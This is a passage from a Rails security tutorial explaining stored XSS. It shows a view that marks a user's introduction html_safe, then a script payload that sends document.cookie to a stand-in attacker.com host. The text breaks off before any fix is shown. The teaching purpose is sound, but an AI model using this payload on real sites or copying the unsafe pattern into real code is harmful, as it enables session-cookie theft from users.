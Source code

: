 A Stored XSS vulnerability arises when data submitted by one user (the attacker) is stored in the application and is then displayed to other users without being sanitized properly.

**DOM-based XSS**

DOM-based XSS vulnerabilities arise when client-side Javascript extracts data contained in a request&#8217;s URL or the response&#8217;s HTML (accessible via the DOM) to dynamically update the page&#8217;s contents. Exploiting a DOM-based XSS vulnerability involves crafting a request URL containing embedded Javascript such that the client-side Javascript injects the malicious Javascript into the DOM and causes its execution.

[Read this OWASP page for more info on the three types of XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting)

For the purposes of this article, we will focus on Stored XSS.

Click here to grab the free cheatsheet on Rails XSS & Security!  
( http://ducktypelabs.com/wp-content/uploads/2016/10/Rails\_XSS\_Security_Cheatsheet.pdf )

## How to attack a Stored XSS Vulnerability?

Let&#8217;s consider an example to illustrate how such a vulnerability can arise and how an attacker can take advantage of it.

### A Vulnerable Rails app

Consider a typical Rails app, with users and admins. A user record has three fields &#8211; `name`, `email` and `introduction`. Each user has a profile page where this information is listed. Admins in the system, in addition to being able to access these profile pages, also have access to a `/users` page which consolidates all the users&#8217; information. The view code for this page starts out looking something like this:

    <% #This is accessible only to admins %>
    <% User.all.each do |user| %>
      <%= user.name %>
      <%= user.email %>
      <%= user.introduction %>
    <% end %>
    

Now let&#8217;s say we want to give our users the ability to customize their introductions with HTML. So instead of typing in `"I'm awesome!!"` in the introduction field, they can type in `"I'm <strong>awesome!!</strong>"`. To accomplish this in our view, we make use of the `html_safe` helper and change `user.introduction` to `user.introduction.html_safe`. Now, if a user submits text with HTML in it, our view will render the HTML.

### Enter Attacker

An attacker can take advantage of this HTML rendering and submit something like this in the introduction field:

    I am awesome!!
    <script>
      var i = new Image;
      i.src = "http://attacker.com/" + document.cookie;
    </script>
    